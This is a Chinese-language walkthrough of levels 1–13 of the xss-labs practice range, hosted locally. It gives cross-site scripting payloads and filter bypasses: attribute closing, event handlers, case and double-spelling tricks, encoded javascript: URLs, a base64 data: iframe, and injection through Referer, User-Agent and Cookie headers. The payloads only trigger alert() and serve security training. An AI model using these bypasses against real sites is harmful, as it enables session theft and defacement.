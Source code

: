 



# 靶场地址

+ 靶场地址：[xss-labs](https://gitcode.com/mirrors/do0dl3/xss-labs/tree/master)
+ 首次从靶场地址下载源文件的文件夹到本地
+ 解压到phpstudy的www目录下，名字改为xss-labs
+ 打开浏览器直接进入 http://127.0.0.1/xss-labs/ 即可访问靶场



+ 靶场通关参考地址：[xss-labs靶场实战全通关](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc=%7B%22request%5Fid%22%3A%22170288814616800182767434%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)

![入口](./img/入口.png)



# level 1 

![level1_1](./img/level1_1.png)

首先确定<code>payload</code>的位置，发现如上图所示即为<code>payload</code>的位置



改写<code>payload</code>为：

~~~ javascript
<script>alert("123")</script>
~~~

![level1_2](./img/level1_2.png)

直接编写脚本注入执行即可成功



# level2

+ 首先确定<code>payload</code>的位置，如下图

![level2_1](./img/level2_1.png)



+ 编写<code>payload</code>为：

~~~ javascript
"> <script>alert(1)</script>
~~~

闭合<code>input</code>标签中<code>value</code>值然后再注入即可

![level2_2](./img/level2_2.png)



# level3

+ 首先确定<code>payload</code>的位置，如下，先输入<code>"</code>然后点搜索后发现双引号<code>"</code>被转义为<code>html</code>实体

![level3_1](./img/level3_1.png)



+ 查看源文件<code>level3.php</code>源文件，发现该位置有<code>htmlspecialchars</code>函数

![level3_2](./img/level3_2.png)



+ 查看<code>[php手册](https://www.php.net/manual/zh/function.htmlspecialchars)</code>，如下：

![level3_3](./img/level3_3.PNG)



+ 输入单引号<code>’</code>，发现单引号<code>'</code>不会被转义，用单引号<code>' </code>闭合<code>Input</code>函数

![level3_4](./img/level3_4.PNG)

![level3_5](./img/level3_5.PNG)



+ 输入<code>payload</code>为：<code>' onclick=javascript:alert() /></code>，然后点搜索按钮注入：

![level3_9](./img/level3_9.PNG)



+ 看页面源码发现页面已经被注入，后点击输入框发现注入成功

![level3_10](./img/level3_10.PNG)



# level4

+ 首先找到<code>payload</code>的点，如下图：

![level4_1](./img/level4_1.png)



+ 尝试输入<code>'</code>，发现无效

![level4_2](./img/level4_2.png)



+ 输入<code>"</code>，发现<code>value</code>属性闭合，可和<code>level3</code>一样构造函数<code>onclick</code>，<code>payload</code>为<code>" onclick=alert() "</code>

![level4_3](./img/level4_3.png)



+ 可发现函数已经构造好了，点击一下输入框即可触发函数

![level4_4](./img/level4_4.png)



#  level5

+ 首先查看源代码，发现输入<code>script</code>会被替换为<code>scr_ipt</code>，而<code>on</code>则被替换为<code>o_n</code>，同时将输入的字符转小写然后使用<code>htmlspecialchars</code>函数转换

![level5_1](./img/level5_1.png)



+ 确定<code>payload</code>的点

![level5_2](./img/level5_2.png)



+ 尝试输入<code>"</code>，发现可以将<code>value</code>属性闭合

![level5_3](./img/level5_3.png)

![level5_4](./img/level5_4.png)



+ <code>payload</code>尝试改为<code>"><script>alert()</script></code>,发现可成功注入，但最终注入失败，<code>script</code>标签被转化为<code>scr_ipt</code>

  

  ![level5_5](./img/level5_5.png)

![level5_6](./img/level5_6.png)



+ 由此,<code>on</code>会被转化为<code>o_n</code>，故此不用<code>onclick</code>或者<code>onfocus</code>等其他属性注入.尝试使用<code><a></code>标签，<code>payload</code>改为<code>"><a href="javascript:alert()"></code>，注入成功:

![level5_7](./img/level5_7.png)

![level5_8](./img/level5_8.png)



+ 发现用<code><a></code>标签注入成功，点一下该标签发现效果如下

![level5_9](./img/level5_9.png)



# level6

+ 首先查看代码，发现会将<code>on</code>转化为<code>o_n</code>，<code>script</code>转化为<code>scr_ipt</code>，<code>src</code>转化为<code>sr_c</code>，<code>data</code>转化为<code>da_ta</code>，<code>href</code>转化为<code>hr_ef</code>，同时也会使用<code>htmlspecialchars</code>函数

![level6_1](./img/level6_1.png)



+ 确定<code>payload</code>的点如下：

![level6_2](./img/level6_2.png)



+ 由之前代码审计可知，前几关使用的构造<code>onclick</code>属性及<code><a href></code>标签就不好用了，由此，可尝试大小写构造<code>payload</code>如            <code>    " /><Script>alert()</Script></code>

![level6_3](./img/level6_3.PNG)



+ 注入后，发现成功：

![level6_4](./img/level6_4.PNG)



# level7

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了

![level7_1](./img/level7_1.PNG)



+ 确定<code>payload</code>的地方

![level7_2](./img/level7_2.png)



+ 由上面的分析，可使用双拼写绕过，构造<code>payload</code>为<code>"/><sscriptcript>alert()</sscriptcript></code>

![level7_3](./img/level7_3.PNG)



+ 这关甚至还过滤掉了src和data，受不了了，百度找找看其他解法

​		src(source)是一个指向，可以大概理解跟href一样把，只是执行的内容不太一样
​		data一般在<iframe>标签中用来配合date:text/html（貌似解码的含义）



第二关没啥过滤只有一个html实体转义，我们回到第二关测试一下 

![level7_4](./img/level7_4.PNG)

先试一下<code>src</code>，这里配合<code>onerror</code>属性，插入一个<code><img></code>标签，闭合掉双引号跟括号，构造<code>payload</code>

<code>"> <img src='666' onerror=alert()> <"</code>

>  onerror属性是指当图片加载不出来的时候触发js函数，以上面的代码为例，这里因为src指向的是值666，而不是图片的地址和base64编码啥的，就会导致触发alert函数

![level7_5](./img/level7_5.PNG)



当然img标签还有其他姿势

①当鼠标移出图片的时候执行的属性<code>onmouseout </code>

<code>"> <img src=666 onmouseout="alert()"> <"</code>

②当鼠标移动到图片的时候执行的属性<code>onmouseover</code>

<code>"> <img src=1 onmouseover="alert()"> <"</code>



再来看看<code>data</code>的，这里利用<code>iframe</code>标签，插入一个标签<code>data:text/html;base64</code>, 将后面的内容进行<code>base64</code>解码，<code>PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+</code>进行base64解码后是<code><script>alert()</script></code>

<code>"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+"> <"</code>


虽然有弹窗，但是没有过关 

![level7_6](./img/level7_6.png)


# level8

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了，还会将<code>"</code>双引号转化为其他字符串

![level8_1](./img/level8_1.PNG)



+ 确定<code>payload</code>的位置以及会执行的动作

![level8_2](./img/level8_2.png)



+ 由此，可利用<code>href</code>隐藏属性自动触发<code>Unicode</code>解码插入一段<code>javascript</code>伪代码<code>javascipt:alert()</code>，可利用[在线Unicode编码解码工具](https://www.matools.com/code-convert-unicode)进行<code>Unicode</code>编码，将<code>javascript:alert()</code>转化为

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
~~~



![level8_3](./img/level8_3.png)



+ 注入后点击友情链接即可触发<code>xss</code>注入

![level8_4](./img/level8_4.png)



# level9

+ 首先代码审计，查看源代码

![level9_1](./img/level9_1.PNG)



+ 根据代码审计，false等于false时(传入值没有http://)会执行if，为防止false===false需要向传入的值里加http://并用注释符注释掉否则执行不了无法弹窗，让函数strpos返回一个数字，构造payload

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
~~~



+ 注入后点击对应的<b>友情链接</b>即可弹出相应的结果

![level9_2](./img/level9_2.png)



+ 本关小结：插入指定内容（本关是http://）绕过检测，再将指定内容用注释符注释掉即可



# level10

+ 首先测一下关键字

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level10_1](./img/level10_1.PNG)

![level10_2](./img/level10_2.PNG)

注入后发现所有的注入都被实体化了



+ 代码审计，查看一下项目源代码

![level10_3](./img/level10_3.PNG)

好吧，原来还有其他隐藏的传参方法，学到了，这里是get传参t_sort，并过滤掉了<>号，不能闭合插入标签，但是我们还能用onfocus事件，因为这里输入框被隐藏了，需要添加type="text"，构造payload



+ 注入下面的<code>payload</code>：

~~~ shell
?t_sort=" onclick=javascript:alert() type="text
~~~

![level10_4](./img/level10_4.PNG)



+ 注入成功，点击一下输入框会触发脚本执行

![level10_5](./img/level10_5.PNG)



+ **本关小结**：根据源码猜解传参的参数名，隐藏的input标签可以插入type="text"显示



# level11

![level11_1](./img/level11_1.png)

<code><input></code>标签有四个值，都做了隐藏处理，不难看出第四个名为t_ref的<code><input></code>标签是`http`头`referer`的参数（就是由啥地址转跳到这里的，`http`头的`referer`会记录）。先简单测试验证下前面三个标签名，GET与POST传参都试一下



GET传参：

~~~ shell
?t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_2](./img/level11_2.png)

可看到，没有赋值成功



试试POST传参：

~~~ shell
t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>
~~~

![level11_3](./img/level11_3.png)

POST传参也没用(由于没有办法POST传参所以这里没有测试)



考虑<code>referer</code>头，使用<code>burpsuite</code>抓包下然后添加<code>http</code>头的<code>referer</code>

~~~ shell
Referer: " sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_4](./img/level11_4.png)



可看到成功注入

![level11_5](./img/level11_5.png)



查看源码

![level11_6](./img/level11_6.png)

对比发现，把大于小于号><给删掉了，但是我们还能用onfocus，构造一个http头

~~~ shell
Referer: " onclick=javascript:alert() type="text
~~~

![level11_7](./img/level11_7.png)



发现注入成功

![level11_8](./img/level11_8.png)



点击下文本框，弹出弹框

![level11_9](./img/level11_9.png)



再看下源码

![level11_10](./img/level11_10.png)

跟猜想一样，这题还有GET传参，但还有<code>htmlspecialchars()</code>函数在无法闭合双引号 



 **本关小结**：考虑一下http头传值，本关是referer，但接下来也有可能是其他头，如Cookie等



# level12

![level12_1](./img/level12_1.png)

第四个参数肯定是User-Agent头，用burpsuite抓包一下，将User-Agent头修改为测试代码

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level12_3](./img/level12_3.png)

![level12_4](./img/level12_4.png)



可发现成功注入

![level12_5](./img/level12_5.png)



构造想要构造的<code>User-Agent</code>头：

~~~ shell
User-Agent:" onclick=javascript:alert() type="text
~~~

![level12_6](./img/level12_6.png)



发现注入成功：

![level12_7](./img/level12_7.png)



点一下方框，触发函数：

![level12_8](./img/level12_8.png)



# level13

![level13_1](./img/level13_1.png)

同样，第四个参数是<code>t_cook</code>，猜想应该是<code>cookie</code>



尝试用<code>burpsuite</code>拦截下

![level13_2](./img/level13_2.png)



可看到确实<code>t_user</code>参数的值是<code>Cookie</code>的值

![level13_3](./img/level13_3.png)



用<code>burpsuite</code>拦截然后修改下<code>Cookie</code>的值注入：

~~~ shell
" onclick=alert() type="text 
~~~

![level13_4](./img/level13_4.png)



回到页面发现注入成功

![level13_5](./img/level13_5.png)



点击方框发现成功反弹

![level13_6](./img/level13_6.png)



**本关小结**：还是http头传参



# level14 



[xss-labs靶场实战全通关详细过程（xss靶场详解）-CSDN博客](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc={"request_id"%3A"170288814616800182767434"%2C"scm"%3A"20140713.130102334.."}&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)
